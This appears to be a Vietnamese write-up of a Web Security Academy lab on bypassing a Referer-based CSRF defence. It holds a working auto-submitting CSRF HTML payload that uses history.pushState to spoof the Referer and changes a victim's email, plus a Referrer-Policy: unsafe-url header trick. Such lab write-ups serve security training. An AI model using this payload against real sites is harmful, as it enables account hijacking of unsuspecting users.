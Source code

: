 Để giải quyết phòng thí nghiệm, hãy sử dụng máy chủ khai thác của bạn để lưu trữ một trang HTML sử dụng cuộc tấn công CSRF để thay đổi địa chỉ email của người xem.
Chúng ta sẽ bắt request của chức năng để xem cơ chế hoạt động của cơ chế chống CSRF.




```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?https://ac101f611ffe1a9b80a9347f00cf009c.web-security-academy.net')</script>
    <form action="https://ac101f611ffe1a9b80a9347f00cf009c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="datnlq&#64;hacker&#46;de" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```
Error: 


Điều này là do nhiều trình duyệt hiện nay loại bỏ chuỗi truy vấn khỏi tiêu đề Người giới thiệu theo mặc định như một biện pháp bảo mật. Để ghi đè hành vi này và đảm bảo rằng URL đầy đủ được bao gồm trong yêu cầu, hãy quay lại máy chủ khai thác và thêm tiêu đề sau vào phần "Head":
```
Referrer-Policy: unsafe-url
```

